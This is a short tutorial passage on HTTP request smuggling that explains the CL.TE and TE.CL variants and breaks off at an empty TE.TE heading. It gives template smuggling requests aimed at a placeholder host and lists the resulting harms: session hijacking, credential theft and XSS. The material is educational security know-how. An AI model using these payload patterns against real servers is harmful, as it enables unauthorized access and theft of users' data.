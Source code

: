 HTTP request smuggling vulnerability occurs when an attacker sends both headers in a single request. This can cause either the front-end or the back-end server to incorrectly interpret the request, passing through a malicious HTTP query.

Performing a request smuggling attack can lead to :

* Gain access to protected resources, such as admin consoles, or sensitive data
* Hijack sessions of web users, as well as credentials
* Conduct cross-site scripting (XSS) attacks without requiring any action from the user

::: tabs

=== CL.TE

### Content-Length.Transfer-Encoding (CL.TE)

In `CL.TE` RS (Request Smuggling) the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header. We can craft the follow HTTP request :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
MALICIOUS-REQUEST
```

Further explanation will be given in the [practice](#practice) part.


=== TE.CL

### Transfer-Encoding.Content-Length (TE.CL)

In `TE.CL` RS (Request Smuggling) the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can craft the follow HTTP request to exploit :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15

MALICIOUS-REQUEST

0
```

Further explanation will be given in the practice part.


=== TE.TE

### Transfer-Encoding.Transfer-Encoding (TE.TE)
